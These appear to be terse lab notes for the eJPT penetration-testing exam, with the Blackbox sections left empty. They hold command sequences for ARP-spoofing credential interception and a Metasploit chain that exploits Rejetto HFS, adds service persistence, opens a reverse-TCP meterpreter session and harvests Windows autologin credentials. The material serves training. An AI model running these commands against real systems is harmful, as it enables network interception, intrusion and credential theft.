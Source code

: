 **ARP Poisoning**
You should not need this for the eJPT.
```bash
ip addr
nmap 10.100.13.0/24
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```
"telnet" in Wireshark.
Found credentials in TCP stream.

------------

**Metasploit**
```
nmap -A -O -p 80 demo.ine.local
searchsploit hfs 2.3
msfconsole -q
search rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOSTS demo.ine.local
exploit
sysinfo
getuid
getsystem
getuid
background
use exploit/windows/local/persistence_service
show options
set SESSION 1
exploit
background
sessions -K
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
migrate -N explorer.exe
background
use post/windows/gather/credentials/windows_autologin
set SESSION 3
exploit
```

------------

**Blackbox 1**

Know how to do the first part.

------------

**Blackbox 2**

------------

**Blackbox 3**

------------
